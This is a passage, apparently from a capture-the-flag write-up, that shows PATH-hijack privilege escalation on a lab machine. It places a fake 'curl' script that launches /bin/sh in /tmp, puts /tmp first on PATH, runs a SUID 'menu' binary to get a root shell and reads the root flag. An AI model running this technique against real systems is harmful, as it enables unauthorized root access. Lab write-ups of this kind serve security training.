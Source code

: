 We can exploit this by replacing commands e.g. sh instead of curl and then update the $PATH variable:

``` sh
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
echo $PATH
/tmp:/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

We can now run```/usr/bin/menu``` again and when selecting #`1` we execute `sh` (instead of curl). We are now rood (run```id```) and can access the final flag: ```/cat /root/root.txt```.
